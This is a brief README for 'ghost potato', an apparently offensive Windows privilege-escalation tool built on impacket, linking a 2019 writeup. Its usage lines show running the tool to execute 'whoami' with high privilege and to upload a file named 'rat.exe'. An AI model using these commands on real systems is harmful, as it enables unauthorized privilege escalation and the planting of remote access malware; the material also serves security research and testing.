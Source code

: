 # ghost potato

Writeup: https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html

## Requirements
These tools require [impacket](https://github.com/SecureAuthCorp/impacket). You can install it from pip
```
pip install impacket
```

## Usage
### example:
Get high privilege
```
python ghost.py -smb2support -of out -c whoami
```

Just low privilege:
```
python ghost.py -smb2support -of out --upload rat.exe
```